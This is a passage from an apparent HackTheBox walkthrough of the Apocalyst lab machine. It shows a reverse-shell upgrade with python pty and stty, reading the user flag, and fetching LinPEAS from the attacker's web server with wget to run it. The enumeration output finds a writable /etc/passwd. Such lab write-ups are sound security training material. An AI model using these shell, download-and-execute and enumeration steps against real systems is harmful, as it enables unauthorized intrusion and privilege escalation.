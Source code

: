     
    
    $ python -c 'import pty;pty.spawn("bash")'
    /bin/sh: 2: python: not found
    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@apocalyst:/var/www/html/apocalyst.htb$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@apocalyst:/var/www/html/apocalyst.htb$
    

This user can access `/home/falaraki` and read `user.txt`:

    
    
    www-data@apocalyst:/home/falaraki$ cat user.txt
    9182d4d0**********************
    

## Shell as root

### Enumeration

Nothing else obvious jumped out by poking around in common directories, so I
uploaded [LinPEAS](https://github.com/carlospolop/privilege-escalation-
awesome-scripts-suite/tree/master/linPEAS) by starting a Python webserver
(`python3 -m http.server`) in the directory and then using `wget` from
Apocalyst to download it into `/dev/shm`:

    
    
    www-data@apocalyst:/dev/shm$ wget 10.10.14.14:8000/linpeas.sh
    --2021-02-05 19:56:12--  http://10.10.14.14:8000/linpeas.sh
    Connecting to 10.10.14.14:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320037 (313K) [text/x-sh]
    Saving to: 'linpeas.sh'
    
    linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.08s   
    
    2021-02-05 19:56:13 (4.03 MB/s) - 'linpeas.sh' saved [320037/320037]
    

I’ll set it executable, and run it:

    
    
    www-data@apocalyst:/dev/shm$ chmod +x linpeas.sh 
    www-data@apocalyst:/dev/shm$ ./linpeas.sh
    ...[snip]...
    [+] Hashes inside passwd file? ........... No
    [+] Writable passwd file? ................ /etc/passwd is writable
    [+] Credentials in fstab/mtab? ........... No
    [+] Can I read shadow files? ............. No
    [+] Can I read opasswd file? ............. No
    [+] Can I write in network-scripts? ...... No
    [+] Can I read root folder? .............. No
    ...[snip]...
    
